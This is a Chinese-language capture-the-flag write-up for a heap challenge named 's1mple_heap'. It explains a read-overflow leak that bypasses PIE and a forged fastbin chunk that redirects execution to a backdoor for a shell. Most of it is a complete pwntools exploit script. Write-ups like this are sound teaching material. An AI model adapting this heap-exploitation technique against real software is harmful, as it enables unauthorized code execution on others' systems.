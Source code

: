 首先，先创建一个较大的堆块，剩下的空间恰好够一个小堆块。现在就有了两个堆块。且充满了mmap空间。

然后，释放第一个堆块，fastbin里面就会有一个指针。fill之前分配的那个小堆块，因为read函数的多余读取，可以覆盖到指针位置。就可以泄露地址，从而绕过PIE。

最后再次对小堆块进行填充，把fastbin伪造成一个空闲chunk，fastbin为0xffffffff，fastbin+8为0x10，fastbin+16改为 fastbin 的地址，再次分配0x10的chunk，即可操作 fastbin+16 后 0x10 的空间，把 后门地址填充到后8个字节，再次进入allocate函数就可以getshell了。

exp:

```python
#!/usr/bin/env python3
from pwn import *

#io = remote("pwn.blackbird.wang",9600)
io = process("./s1mple_heap")
heap = ELF("./s1mple_heap")

context.log_level = 'debug'

def alloc(size):
    io.sendlineafter(b"exit\n",b'1')
    io.sendlineafter(b"size:",str(size))

def delet(index):
    io.sendlineafter(b"exit\n",b'2')
    io.sendlineafter(b"index:",str(index))

def fill_t(index, content):
    io.sendlineafter(b"exit\n",b'3')
    io.sendlineafter(b"index:",str(index))
    io.sendlineafter(b"content:",content)
    io.send(b'\n')

def prin_t(index):
    io.sendlineafter(b"exit\n",b'4')
    io.sendlineafter(b"index:",str(index))

alloc(976)
alloc(0x10)
delet(0)

fill_t(1,('A'*0x1F).encode())
prin_t(1)
io.recvline()
io.recvline()
mmap = u64(io.recv(6).ljust(8,b'\x00'))                         #泄露mmap地址
print(hex(mmap))

one_gadget = mmap - 0x4040 + 0x1DFD

alloc(0x10)
fill_t(1,('A'*0x10).encode() + p64(0xffffffff) + p64(0x10) + p64(mmap + 0x400))
alloc(0x10)
fill_t(2,p64(0) + p64(one_gadget) + p64(0) + p64(0) + p64(0))

io.recv()
io.sendline(b'1')
#attach(io)
io.interactive()
```
